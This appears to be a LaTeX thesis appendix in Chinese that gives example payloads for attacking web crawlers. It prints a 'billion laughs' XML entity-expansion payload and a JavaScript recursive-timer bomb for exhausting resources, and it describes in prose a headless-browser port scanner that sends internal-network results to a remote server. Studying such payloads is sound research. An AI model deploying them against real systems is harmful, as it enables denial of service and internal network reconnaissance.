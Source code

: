 \documentclass[doctor,privacy,twoside]{buaa_mac}
\begin{document}
\section{示例攻击载荷}

\subsection{资源耗尽型攻击代码}
资源耗尽型攻击代码通过大量的死循环以及递归，来实现对爬虫宿主机计算和存储资源的大量消耗，从而实现干扰爬虫正常运行的目标。

如下所示是billion laugh的攻击载荷，通过大量的参数实体中的引用，使得最后输出的xml的内容中包含指数级数量的lol字符串。
\lstset{language=JavaScript}
\begin{lstlisting}
<?xml version="1.0"?>
<!DOCTYPE lolz [
 <!ENTITY lol "lol">
 <!ELEMENT lolz (#PCDATA)>
 <!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
 <!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
 <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
 <!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
 <!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
 <!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
 <!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
 <!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
 <!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
]>
<lolz>&lol9;</lolz>
\end{lstlisting}

如下所示js fork bomb的攻击载荷，该攻击载荷通过指数级的fork来实现对爬虫宿主系统的计算资源的耗尽，直至其无法再fork新的进程为止：
\lstset{language=JavaScript}
\begin{lstlisting}
function die () {
  setTimeout(function () {die(); die()}, 0)
}
die();
\end{lstlisting}


\subsection{示例端口扫描程序}

该攻击载荷用于在爬虫所在的无头浏览器中运行，获取爬虫所在宿主机内网中的端口开放情况。因为unsafe ports的浏览器安全机制的限制，部分关键端口无法扫描。扫描完成后，会将扫描结果通过窗口跳转机制传输到指定的服务器上。
\end{document}
